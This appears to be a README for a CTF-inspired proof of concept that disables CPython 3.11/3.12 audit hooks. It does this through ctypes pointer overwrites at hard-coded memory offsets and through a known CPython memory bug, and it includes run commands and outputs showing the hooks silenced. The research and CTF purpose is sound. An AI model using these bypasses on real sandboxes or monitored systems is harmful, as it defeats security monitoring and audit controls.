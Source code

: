 # python audit_hooks head finder

This POC intends to show how to find the audit hook and use `ctypes` to pop it (~~SMASH it~~).

The idea is inspired by `misc/diligent-auditor` and `misc/IRS` challeneges and their solve scripts from [dicectf-quals-2024 CTF](https://github.com/dicegang/dicectf-quals-2024-challenges/).

# Ref
<https://ur4ndom.dev/posts/2024-02-11-dicectf-quals-diligent-auditor/>

## Tested environment
```
Python 3.12.1 (main, Feb  3 2024, 17:23:12) [GCC 13.2.1 20230801] on linux
Python 3.11.7 (main, Jan 29 2024, 16:03:57) [GCC 13.2.1 20230801] on linux
```

## Offsets
```python
# Python audit hook -- under interpreter state
python_offset_311 = 0xe00
python_offset_312 = 0x41448

# native audit hook -- under runtime state
native_offset_311 = -0xe388
native_offset_312 = -0x11df0
```

## audit hook in Python
### Concept
According to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `audit_hooks` pointer under `PyInterpreterState`, we can cast `audit_hook` to `Py_ListObject` by address and pop it.

### How to use
```bash
./build.sh
./POC.py
./POC2.py
```

### Output
```bash
> ./POC.py
PyInterpreterState_addr=0x5c50c812fbe8
PyRuntimeState_addr=0x5c50c811d180
PyInterpreterState.audit_hooks_ptr_addr=0x5c50c8170fb0
PyRuntimeState.audit_hooks_ptr_addr=0x5c50c811dd78

audit_hook_ptr_offset=0x41448
1
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2.py
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## audit hook in C
### Concept
According to the "fixed" offsets between `ctypes.byref(ctypes.py_object(()))` and `audit_hooks` pointer under `PyRuntimeState`, we can directly rewrite the head of audit hooks linkList to `NULL`.

### How to use
```bash
./build.sh
./POC-native-hook.py
./POC-native-hook2.py
```
### Output
```bash
> ./POC-native.py
PyInterpreterState_addr=0x5c7801978be8
PyRuntimeState_addr=0x5c7801966180
PyInterpreterState.audit_hooks_ptr_addr=0x5c78019b9fb0
PyRuntimeState.audit_hooks_ptr_addr=0x5c7801966d78

audit_hook_ptr_offset=-0x11df0
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2-native.py
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## Use issues/91153 to do arbitrary read/write
### Concept
By using <https://github.com/python/cpython/issues/91153>, we can overwrite audit hook without `ctypes`.
### How to use
```bash
./build.sh
./POC2-issue91153.py
./POC2-issue91153-native.py
```
### Output
```bash
> ./POC2-issue91153.py
audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
> ./POC2-issue91153-native.py
C audit hook triggered!
test audit hook -- this will trigger hook
test audit hook -- this will not
```

## TODO
- [x] Use <https://github.com/python/cpython/issues/91153> to smash it without `ctypes`
- [ ] Find a way to get the `audit_hook` address without using `ctypes`
